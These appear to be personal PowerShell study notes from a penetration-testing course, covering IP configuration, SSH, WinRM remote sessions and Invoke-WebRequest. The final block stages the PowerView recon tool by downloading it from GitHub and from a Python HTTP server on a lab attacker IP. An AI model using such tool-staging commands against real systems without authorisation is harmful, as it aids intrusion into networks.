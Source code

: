 ```ps1
Get-NetAdapter; Get-NetIPInterface
Get-NetIPAddress -ifIndex 13  # Ethernet, Wi-Fi...

Set-NetIPInterface -InterfaceIndex 25 -Dhcp Disabled
Set-NetIPAddress -InterfaceIndex 25 -IPAddress 10.10.100.54 -PrefixLength 24
  Get-NetIPAddress -ifindex 20 | ft InterfaceIndex,InterfaceAlias,IPAddress,PrefixLength
  Get-NetIPinterface -ifindex 20 | ft ifIndex,InterfaceAlias,Dhcp
Restart-NetAdapter -Name 'Ethernet 3'
Test-NetConnection
```

- **SSH**

```ps1
Get-WindowsCapability -Online | Where-Object Name -like 'OpenSSH*'
Add-WindowsCapability -Online -Name OpenSSH.Client~~~~0.0.1.0

Start-Service sshd
  # Set-Service -Name sshd -StartupType 'Automatic'
```
```ps1
ssh user@ip
powershell || pwsh
```

- **WinRM** (ports == 5985 5986)

```ps1
winrm quickconfig
  # TWEAKS: TrustedHosts, AD, Kerberos

Test-WSMan -ComputerName "IP"
Test-WSMan -ComputerName "IP" -Authentication Negotiate

Enter-PSSession -ComputerName 10.129.224.248 -Credential htb-student -Authentication Negotiate
```

### Interacting with the Web

- [Invoke-WebRequest](https://learn.microsoft.com/bs-latn-ba/powershell/module/microsoft.powershell.utility/invoke-webrequest?view=powershell-5.1)
  - basic HTTP/HTTPS requests (like GET and POST), parse through HTML pages, download files, authenticate, and even maintain a session with a site
  - aliases: `wget` `iwr` `curl`

```ps1
Get-Help Invoke-WebRequest

# GET
Invoke-WebRequest -Uri "https://web.ics.purdue.edu/~gchopra/class/public/pages/webdesign/05_simple.html" -Method GET | Get-Member
Invoke-WebRequest -Uri "https://web.ics.purdue.edu/~gchopra/class/public/pages/webdesign/05_simple.html" -Method GET | fl Images
Invoke-WebRequest -Uri "https://web.ics.purdue.edu/~gchopra/class/public/pages/webdesign/05_simple.html" -Method GET | fl RawContent

# DOWNLOADING
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1" -OutFile "C:\PowerView.ps1"
python3 -m http.server 8000
Invoke-WebRequest -Uri "http://10.10.14.169:8000/PowerView.ps1" -OutFile "C:\PowerView.ps1"
```
